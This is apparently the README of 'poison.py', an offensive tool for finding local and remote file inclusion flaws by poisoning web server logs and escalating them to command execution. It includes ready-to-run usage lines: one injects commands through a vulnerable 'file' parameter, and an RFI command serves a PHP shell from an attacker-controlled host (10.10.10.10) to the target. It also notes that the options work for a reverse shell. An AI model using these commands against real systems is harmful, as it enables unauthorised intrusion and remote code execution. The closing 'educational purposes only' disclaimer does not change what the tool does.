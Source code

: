 # poison.py
Fast tool to search log's for LFI/RFI vulnerabilities, and automatic escalation to shell
all the wordlists and payloads is included

## Exploitation:
![Preview](https://github.com/user-attachments/assets/8d658876-79d6-41f1-9456-91681be9782e)



## Example usage (LFI):
```
./poison.py -u 'http://127.0.0.1/file.php?file=' -e 'id' -p src/payloads.txt -w src/small.txt
```
_____________________________________________________________________________________________
```
-u 'http://127.0.0.1/file.php?file=' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

```
-w src/small.txt # wordlist using the search for available log's file
```
## Example usage (RFI):
```
/poison.py -u 'http://127.0.0.1/index.php?page=' --rfi --lhost 10.10.10.10 --rhost 127.0.0.1 --rport 14852 --lfile 'src/shell.php' -e 'id' --cookie 'PHPSESSID=1234567890'
```
![screenshot](https://github.com/user-attachments/assets/061fdbe8-5b76-43d8-816f-068abf521744)
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 10.10.10.10 # which network interface to bind the local HTTP server to (necesssary only on remote explotiation)
```

```
-rhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--rport 14852 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/shell.php' # payload which include in the request during the RFI
```

```
-e 'id' # command for src/shell.php 
```

```
--cookie 'PHPSESSID=1234567890' # cookie for authorized requests
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program

